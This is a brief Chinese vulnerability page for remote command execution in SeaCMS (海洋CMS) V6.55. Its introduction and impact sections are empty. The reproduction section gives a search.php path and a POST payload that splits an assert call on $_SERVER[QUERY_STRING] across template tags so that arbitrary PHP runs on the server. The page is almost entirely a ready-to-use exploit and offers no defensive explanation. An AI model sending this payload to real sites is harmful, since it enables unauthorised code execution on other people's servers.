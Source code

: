 海洋CMS V6.55 命令执行
======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

path:

    http://0-sec.org/search.php

POST:

    searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/
